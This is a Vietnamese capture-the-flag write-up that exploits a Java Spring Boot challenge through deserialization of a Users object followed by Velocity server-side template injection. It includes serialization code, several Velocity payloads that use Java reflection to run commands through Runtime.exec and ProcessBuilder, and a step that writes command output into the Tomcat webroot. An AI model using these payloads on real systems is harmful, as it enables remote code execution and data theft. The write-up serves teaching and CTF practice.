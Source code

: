![image](https://github.com/user-attachments/assets/8c07037a-a4c8-4ffb-973b-9ff00cec3774)

Đề cho một web được viết bằng java springboot. Đọc source thì thấy trang trủ chấp nhận method `POST` với tham số là data. Decode hex và base64 rồi deserialize thành class User. Sau đó chuyền biến `name` vào template Velocity.

```java
public String hello(@RequestParam("data") String data) throws IOException {
        String hexString = new String(Base64.getDecoder().decode(data));
        byte[] byteArray = Encode.hexToBytes(hexString);
        ByteArrayInputStream bis = new ByteArrayInputStream(byteArray);
        ObjectInputStream ois = new SecureObjectInputStream(bis);

        String name;
        try {
            Users user = (Users)ois.readObject();
            name = user.getName();
        } catch (Exception var13) {
            Exception e = var13;
            throw new RuntimeException(e);
        }

        if (name.toLowerCase().contains("#")) {
            return "But... For what?";
        } else {
            String templateString = "Hello, " + name + ". Today is $date";
            Velocity.init();
            VelocityContext ctx = new VelocityContext();
            LocalDate date = LocalDate.now();
            DateTimeFormatter formatter = DateTimeFormatter.ofPattern("MMMM dd, yyyy");
            String formattedDate = date.format(formatter);
            ctx.put("date", formattedDate);
            StringWriter out = new StringWriter();
            Velocity.evaluate(ctx, out, "test", templateString);
            return out.toString();
        }
    }
```

Nhìn qua có thể thấy bị dính SSTI, việc cần làm bây giờ là phải truyền payload vào biến name để rce. Nhưng gặp phải một vấn đề là lúc `readObjec()`, method `resolveClass` trong class `SecureObjectInputStream` sẽ gọi đến  
```java
    protected Class<?> resolveClass(ObjectStreamClass osc) throws IOException ,ClassNotFoundException{
        List<String> approvedClass = new ArrayList<String>();
        approvedClass.add(Users.class.getName());

        if(!approvedClass.contains(osc.getName())){
            throw new InvalidClassException("Can not deserialize this class! ",osc.getName());
        }
        return super.resolveClass(osc);
    }
```
Method này kiểm tra xem class có method `getName` hay không. Sau đó kiểm tra trong biến `name` có chứa ký tự `#` không. Trước hết ta viết code để serialize class `User` đã.
```java
    public static String bytesToHex(byte[] bytes) {
        StringBuilder hexString = new StringBuilder();
        for (byte b : bytes) {
            String hex = Integer.toHexString(0xFF & b);
            if (hex.length() == 1) hexString.append('0'); // Thêm '0' nếu cần
            hexString.append(hex);
        }
        return hexString.toString();
    }
    public static void main(String[] args) {
        Users u = new Users();
        try {
            ByteArrayOutputStream byteOut = new ByteArrayOutputStream();
            ObjectOutputStream out = new ObjectOutputStream(byteOut);
            u.setName("payload");
            out.writeObject(u);
            out.close();
            String hexString = bytesToHex(byteOut.toByteArray());
            String base64Encoded = Base64.getEncoder().encodeToString(hexString.getBytes());
            System.out.println("Serialized and Base64 encoded string: " + base64Encoded);

        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
![image](https://github.com/user-attachments/assets/7d8d27a1-595d-4a17-88ec-9c8fa6c662a2)

Do không thể sử dụng ký tự `#` nên ta không thể dùng hàm `#set()` để tạo các biến trong template `Velocity`. Việc tạo ra biến để có thể gọi tới class `java.lang.Runtime` nhằm mục đích rce. Ví dụ
```
#set($s="")
#set($stringClass=$s.getClass())
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat%20/flag563378e453.txt"))
#set($out=$process.getInputStream())
#set($null=$process.waitFor() )
#foreach($i+in+[1..$out.available()])
$out.read()
#end
```

Thật may là trong source code có tạo sẵn biến `$date` với kiể String để lấy ra thời gian 

```java
VelocityContext ctx = new VelocityContext();
            LocalDate date = LocalDate.now();
            DateTimeFormatter formatter = DateTimeFormatter.ofPattern("MMMM dd, yyyy");
            String formattedDate = date.format(formatter);
            ctx.put("date", formattedDate);
```
Ta có thể tận dụng biến này để gọi tới class `java.lang.Runtime`. Ban đầu thì mình tìm được [payload](https://garck3h.github.io/2023/07/03/velocity%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5/)

```
$date.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('touch /tmp/1337')
```
Nhưng payload này chỉ có thể thực thi câu lệnh và gửi thông tin tiến trình về thực thi command

![image](https://github.com/user-attachments/assets/e5a0b970-c802-46c8-9d6e-76599522b687)

![image](https://github.com/user-attachments/assets/b0d39acb-7bef-4487-8d8d-21f48de4a834)

Nếu làm theo cách này thì ta có thể ghi output command vào webroot. Trong Springboot thì để xuất hiện webroot, ta cần đưa file vào thư mục: /tmp/tomcat-docbase.8080...., mỗi lần deploy thì giá trị đằng sau sẽ là các ký tự khác, nhưng prefix đằng trước sẽ luôn là tomcat-docbase.8080..

Mình thử tạo một file trên webroot 

![image](https://github.com/user-attachments/assets/ad3431e5-c989-4d04-a905-8654c87c4c9d)

Và truy cập thử thì có thể thấy được nội dung file 

![image](https://github.com/user-attachments/assets/946f390d-2b57-4139-8d71-62b878f2326a)

Như vậy chỉ cần thay payload thành
```
$date.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('ls / > /tmp/$(ls /tmp | grep tomcat-docbase)/test1')
```
![image](https://github.com/user-attachments/assets/c13fe519-db2e-4553-b586-5287c3fea952)


![image](https://github.com/user-attachments/assets/98e7217a-c724-47dc-8723-d4937c5a5fae)

Giờ chỉ việt cat flag là xong


Lúc sau mình có tìm thêm được payload khác có thể xem output của shell luôn
```
$date.getClass().forName("java.io.BufferedReader").getConstructor($date.getClass().forName("java.io.Reader")).newInstance($date.getClass().forName("java.io.InputStreamReader").getConstructor($date.getClass().forName("java.io.InputStream")).newInstance($date.getClass().forName("java.lang.ProcessBuilder").getConstructor($date.getClass().forName("java.util.List")).newInstance(["ls","/"]).start().getInputStream())).lines().collect($date.getClass().forName("java.util.stream.Collectors").joining("\n"))
```

